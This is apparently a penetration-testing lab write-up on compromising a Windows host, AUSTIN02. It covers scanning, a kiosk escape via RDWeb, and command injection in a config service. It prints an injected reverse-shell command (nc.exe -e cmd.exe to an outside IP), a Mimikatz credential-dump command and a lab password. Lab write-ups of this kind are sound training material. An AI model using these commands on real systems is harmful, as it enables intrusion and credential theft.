# AUSTIN02

## Enumeration

Host at `192.168.xxx.221`. Output from `nmap` scan report generated [here](./#network-enumeration):

<pre><code>Nmap scan report for 192.168.249.221
<strong>Host is up (0.053s latency).
</strong>Not shown: 65513 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Microsoft IIS httpd 10.0
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=austin02.SKYLARK.com
| Not valid before: 2022-11-15T12:30:26
|_Not valid after:  2023-05-17T12:30:26
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds  Windows Server 2022 Standard 20348 microsoft-ds
3387/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5504/tcp  open  msrpc         Microsoft Windows RPC
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
10000/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2024-08-14T00:35:59+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: SKYLARK
|   NetBIOS_Domain_Name: SKYLARK
|   NetBIOS_Computer_Name: AUSTIN02
|   DNS_Domain_Name: SKYLARK.com
|   DNS_Computer_Name: austin02.SKYLARK.com
|   DNS_Tree_Name: SKYLARK.com
|   Product_Version: 10.0.20348
|_  System_Time: 2024-08-14T00:35:30+00:00
| ssl-cert: Subject: commonName=austin02.SKYLARK.com
| Not valid before: 2024-07-27T22:54:06
|_Not valid after:  2025-01-26T22:54:06
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49672/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=8/13%OT=80%CT=1%CU=33539%PV=Y%DS=4%DC=T%G=Y%TM=66BB
OS:FBF1%P=x86_64-pc-linux-gnu)SEQ(SP=FC%GCD=1%ISR=10C%TI=I%TS=A)SEQ(SP=FF%G
OS:CD=1%ISR=10D%TI=I%TS=A)SEQ(SP=FF%GCD=1%ISR=10D%TI=RD%TS=D)OPS(O1=M551NW8
OS:ST11%O2=M551NW8ST11%O3=M551NW8NNT11%O4=M551NW8ST11%O5=M551NW8ST11%O6=M55
OS:1ST11)WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FFDC)ECN(R=N)ECN(R=
OS:Y%DF=Y%T=80%W=FFFF%O=M551NW8NNS%CC=Y%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%R
OS:D=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=N)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=O%F=AR%O=%
OS:RD=0%Q=)T5(R=Y%DF=Y%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=N)T7(R=N)U1(R
OS:=N)U1(R=Y%DF=N%T=80%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=8F38%RUD=G)IE
OS:(R=N)

Network Distance: 4 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2024-08-14T00:35:36
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows Server 2022 Standard 20348 (Windows Server 2022 Standard 6.3)
|   Computer name: austin02
|   NetBIOS computer name: AUSTIN02\x00
|   Domain name: SKYLARK.com
|   Forest name: SKYLARK.com
|   FQDN: austin02.SKYLARK.com
|_  System time: 2024-08-13T17:35:35-07:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1h24m01s, deviation: 3h07m54s, median: 0s
</code></pre>

Machine name discovered in scan.

### Anonymous RPC & SMB

I attempted accessing the RPC and SMB services anonymously and as `guest` but that failed:

<figure><figcaption><p>Anonymous failures</p></figcaption></figure>

### Web Server (80 & 443)

The web server at ports 80 and 443 seems to just be a default install of IIS 10:

<figure><figcaption><p>Landing page on both ports</p></figcaption></figure>

I run `feroxbuster` against both ports 80 and 443 to be safe:


```bash
feroxbuster -L 20 -k -C 404 -C 400 -r -w dir_enum.txt -u http://austin02.skylark.com -o p80_directory.feroxbuster
```



```bash
feroxbuster -L 20 -k -C 404 -C 400 -r -w dir_enum.txt -u https://austin02.skylark.com -o p443_directory.feroxbuster
```


* `dir_enum.txt` is a copy of Seclists's `directory-2.3-medium-txt`

Unfortunately it turns up nothing other than the landing page and `iis_start.png`.

### Port 3387

According to [this](https://cqr.company/wiki/protocols/remote-desktop-protocol-rdp/) blog post port 3387 can be a secondary listening port for RDP if 3389 is busy. 3389 is not open here though so I am not sure how I feel about this explanation.

### Port 10000

#### Veritas

I have seen port 10000 listed as a couple things but I think the most likely here is [Veritas](https://www.veritas.com/) which is a cloud backup and recovery software. It is [known to run NDMP](https://www.quora.com/What-is-the-NDMP-port-number) on port 10000.

Tried some exploits:

* [EDB 42282](https://www.exploit-db.com/exploits/42282)
* [Rapid7 Metasploit Module](https://www.rapid7.com/db/modules/exploit/multi/veritas/beagent\_sha\_auth\_rce/)
* I also tried the module Metasploit module `auxiliary/admin/backupexec/dump` but it failed too

<figure><figcaption><p>Exploit failed</p></figcaption></figure>

<figure><figcaption><p>Failed</p></figcaption></figure>

<figure><figcaption><p>Failed</p></figcaption></figure>

Unfortunately nothing else is particularly compelling on this machine so I move on for now.

### RDWeb

After completing `SINGAPORE06` I come back here in search of the `/RDWeb` directory mentioned in the [PDF found](vm16.md#manual-enumeration) on `SINGAPORE06`. I assumed it would be on port 3387 or 10000 of this machine but I was incorrect. Before I left I checked 80 and 443 where I finally found it:

```
https://austin02.skylark.com/RDWeb
```

<figure><figcaption><p>Landing page for RDWeb directory</p></figcaption></figure>

I tried logging in with the credentials from the PDF (`SKYLARK\kiosk:XEwUS^9R2Gwt8O914`) and they work. Inside the web portal I find several applications listed:

<figure><figcaption><p>Successful sign in</p></figcaption></figure>

Clicking on any of them downloads an RDP configuration file. None of the files actually worked with Remmina but I was able to pull pieces from them and manually configure Remmina to get it working. The file I started with was for the `SkylarkStatus` application which is what loads up in the RDP session:

<figure><figcaption><p>SkylarkStatus application</p></figcaption></figure>

At first this seems fairly restrictive, but once I click on the `AUSTIN02` "link" on the screen it opened up file explorer. From there I could just navigate to `C:\Windows\System32` and open `cmd.exe` by double clicking:

<figure><figcaption><p>Opening cmd.exe from File Explorer</p></figcaption></figure>

<figure><figcaption><p>Command execution on AUSTIN02</p></figcaption></figure>

User access achieved as `kiosk`.

## Internal Pivot

This machine is domain-connected and has access to an internal network `10.10.xxx.0/24`. I can run some domain enumeration tools via my `kiosk` user. This makes things both easier and harder. It means I am not sure whether the path forward is local privilege escalation or domain escalation since I can now reach inside the domain and network.

I set up a `ligolo-ng` proxy and use it to run an `nmap` scan of the internal network.

I also download `SharpHound` to the machine and use it to scan the `SKYLARK.com` domain.

## Privilege Escalation

Started with PEAS.

### Manual Enumeration

As I start looking around the machine manually I find what looks like the `SkylarkStatus` app in `C:\Status`:

<figure><figcaption><p>Contents of C:\Status</p></figcaption></figure>

I grab a copy of both the `.exe` and `run.conf` and take them to my machine for examination. I decompile the `.exe` but can find no DLL injection or command injection opportunities.

`run.conf` does not really contain anything, just the text `123`:

<figure><figcaption><p>run.conf file contents</p></figcaption></figure>

I start looking around the machine more.

### Internal Network Interfaces

Check the internal network interfaces and find a couple potentially interesting processes:

<figure><figcaption><p>Internal network interface listeners</p></figcaption></figure>

I try to get more information about the processes:

<figure><figcaption><p>Checking the process name for each PID </p></figcaption></figure>

The fact that both have no username means they are either `Administrator` or at least some other user that is not `kiosk`.

They are not listening on localhost, but rather the internal `10.10.xxx.0/24` network. To access them I just use my normal `ligolo-ng` proxy and then just attempt to access them with `nc` and the IP address of the internal network interface (`10.10.xxx.254`) instead of the `AUSTIN02.SKYLARK.COM` hostname.

At port 40000 I get some sort of terminal. I start with `?` because that is often a help command. It is in this case too. As I mess around with it I find something interesting, the `read_config` command appears to just be reading the file at `C:\Status\run.conf`:

<figure><figcaption><p>Configuration shell at port 40000</p></figcaption></figure>

As I mess around more I find that the `write_config` command just writes to that file but in an interesting way but in a way that seems (and indeed is) vulnerable to command injection:

<figure><figcaption><p>Command injection against write_config</p></figcaption></figure>

#### Reverse Shell

Using this knowledge I download Netcat and start it with a `write_config` command:

```
write_config '; C:\Users\kiosk\wkg\nc.exe -e cmd.exe 192.168.45.157 8000'
```

This creates an `Administrator` reverse shell:

<figure><figcaption><p>Reverse shell as Administrator</p></figcaption></figure>

## Post-Exploit

I start with Mimikatz and find the local administrator's hash:

```
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

